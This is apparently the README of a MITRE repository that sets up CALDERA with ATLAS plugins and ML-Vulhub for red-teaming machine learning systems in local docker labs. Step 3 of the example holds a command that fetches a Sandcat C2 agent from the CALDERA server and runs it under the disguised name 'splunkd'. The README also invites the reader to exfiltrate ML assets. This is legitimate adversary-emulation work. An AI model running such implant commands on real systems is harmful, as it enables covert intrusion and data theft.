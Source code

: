 ## CALDERA + ATLAS

This repository brings together several projects to enable adversary emulation and red-teaming of machine learning (ML) systems. It configures the MITRE CALDERA&trade; docker image with MITRE ATLAS&trade; plugins and provides sample ML services and environments for testing.

### Summary of Projects:

[CALDERA](https://caldera.mitre.org/) is a cyber security platform designed to easily automate adversary emulation, assist manual red-teams, and automate incident response.

[MITRE ATLAS](https://atlas.mitre.org/) (The Adversarial Threat Landscape for AI Systems) is a knowledge base of adversary tactics, techniques, and procedures targeting ML systems.

Included ATLAS CALDERA Plugins:
- [Almanac](https://github.com/mitre-atlas/almanac): Adds the [ATLAS Navigator](https://mitre-atlas.github.io/atlas-navigator/) to CALDERA
- [Arsenal](https://github.com/mitre-atlas/arsenal): Implements ATLAS techniques as CALDERA Abilities and provides sample CALDERA Adversaries that target ML systems

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a collection of of scripts for intantiating ML-related services and modeling ML environments


### Basic Setup:

1.  Clone the repo:
```bash
git clone --recursive git@github.com:mitre-atlas/caldera-atlas.git
cd caldera-atlas
```

2. Build the CALDERA docker image:
```bash
docker-compose build
```

3. Run the CALDERA docker image with ATLAS plugins plugins (`almanac` and `arsenal`):
```bash
docker-compose up -d
```

4. Access the CALDERA interface at [localhost](https://localhost:8888).

The default username/password is `admin`/`admin`

5. Use CALDERA with the Almanac and Arsenal plugins.

If you aren't already familiar with CALDERA, start with the [CALDERA documentation](https://caldera.readthedocs.io/en/latest/Getting-started.html).

The Almanac and Arsenal plugins can be accessed under the Plugins heading on the left-hand navigation menu.

Arsenal populates CALDERA with new Abilities that implement ATLAS techniques. It also adds new Adversary Profiles that use ATLAS techniques target ML services and resources. More information is available in the [Arsenal documentation](https://github.com/mitre-atlas/arsenal).

6. Cleanup:
```bash
docker-compose down
```

### Example Usage with ML VulHub

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a companion project that provides sample ML-enabled services and environments.
This example models a compromised ML developer machine that has access to a private s3 bucket containing a model zoo and an internal ML model served with torchserve.

1. Startup CALDERA if it's not already running.
```bash
docker-compose up -d
```

2. Start a test environment from an example on ML VulHub.
```bash
cd ml-vulhub/envs/example-00-ml-dev

# perform build and initialization steps
docker-compose build
./init.sh

docker-compose up -d
```

3. Launch a Sandcat agent on the mldev container:
```bash
docker-compose exec mldev bash -c 'server=http://host.docker.internal:8888; curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download -o splunkd; chmod u+x splunkd; ./splunkd -server $server -group red -v'
```

4. Use the Abilities and Adversary Profiles provided by Arsenal to run an Operation targeting the ML services and resourcs in the sample environment.

What ML assets can you discover and exfiltrate? What ML services can you discover, target, and attack?

5. Cleanup:
Run `docker-compose down` from both the `caldera-atlas` and `ml-vulhub/envs/example-00-ml-dev` directories.
